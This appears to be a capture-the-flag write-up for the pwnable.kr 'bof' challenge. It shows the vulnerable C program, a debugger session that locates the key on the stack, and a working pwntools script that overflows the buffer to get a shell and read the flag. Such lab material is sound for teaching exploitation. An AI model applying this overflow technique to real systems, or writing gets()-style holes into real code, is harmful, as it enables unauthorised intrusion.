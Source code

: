 ![logo](http://www.pwnable.kr/img/bof.png)

# bof
The third challenge from pwnable.kr

## Description
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : `nc pwnable.kr 9000`

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Immediately you can notice that this is a buffer overflow due to the use of insecure gets(), which doesn't specify a buffer limit.

We need to overwrite the variable `key` so that it equals `0xcafebabe` in order to get `/bin/sh` access.

`key` is a parameter in this function and it's set to `0xdeadbeef`, so let's open up pwndbg to find that on the stack and figure out the length of our padding.

`pwndbg ./bof`

```
pwndbg> b gets
Breakpoint 1 at 0x4c0
pwndbg> r
Starting program: /home/ctf/challenges/bof/bof
overflow me :

Breakpoint 1, 0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
```

```
pwndbg> finish
Run till exit from #0  0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
aaaaaaaaaaaaaaaa
```

```
pwndbg> x/100x $esp
0xffaf6040:	0xffaf605c	0x00000000	0x000000c2	0xf75f7d56
0xffaf6050:	0xffffffff	0xffaf607e	0xf756dc34	0x61616161
0xffaf6060:	0x61616161	0x61616161	0x61616161	0x56585400
0xffaf6070:	0xffaf788f	0x0000002f	0x56586ff4	0x5799de00
0xffaf6080:	0x565856b0	0x56585530	0xffaf60a8	0x5658569f
0xffaf6090:	0xdeadbeef	0xf7743000	0x565856b9	0xf770e000
```

We can see by examining, in hex representation, that our target is 52 bytes away from the start of our input, a = 0x61

Let's pad 52 bytes then add 0xcafebabe.

```python
from pwn import *

conn = remote('pwnable.kr', 9000)

p = 'a'*52
p += p32(0xcafebabe)

conn.sendline(p)

conn.interactive()
```

# Solution Revisions

Upon dissembling bof and inspecting function `func`, we can more precisely pad our overflow.

```Disassembly
0000062c <func>:
 62c:	55                   	push   %ebp
 62d:	89 e5                	mov    %esp,%ebp
 62f:	83 ec 48             	sub    $0x48,%esp
 632:	65 a1 14 00 00 00    	mov    %gs:0x14,%eax
 638:	89 45 f4             	mov    %eax,-0xc(%ebp)
 63b:	31 c0                	xor    %eax,%eax
 63d:	c7 04 24 8c 07 00 00 	movl   $0x78c,(%esp)
 644:	e8 fc ff ff ff       	call   645 <func+0x19>
 649:	8d 45 d4             	lea    -0x2c(%ebp),%eax
 64c:	89 04 24             	mov    %eax,(%esp)
 64f:	e8 fc ff ff ff       	call   650 <func+0x24>
 654:	81 7d 08 be ba fe ca 	cmpl   $0xcafebabe,0x8(%ebp)
 65b:	75 0e                	jne    66b <func+0x3f>
 65d:	c7 04 24 9b 07 00 00 	movl   $0x79b,(%esp)
 664:	e8 fc ff ff ff       	call   665 <func+0x39>
 669:	eb 0c                	jmp    677 <func+0x4b>
 66b:	c7 04 24 a3 07 00 00 	movl   $0x7a3,(%esp)
 672:	e8 fc ff ff ff       	call   673 <func+0x47>
 677:	8b 45 f4             	mov    -0xc(%ebp),%eax
 67a:	65 33 05 14 00 00 00 	xor    %gs:0x14,%eax
 681:	74 05                	je     688 <func+0x5c>
 683:	e8 fc ff ff ff       	call   684 <func+0x58>
 688:	c9                   	leave  
 689:	c3                   	ret   
```

A buffer of size 0x2c is created with the `lea    -0x2c(%ebp),%eax` instruction.

Adding another 8 bytes to overflow $ebp and saved $eip would give us the correct size of our buffer.


### Capturing the Flag

```sh
(ctftools)ctf@b1b157128929:~/challenges/bof$ python exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

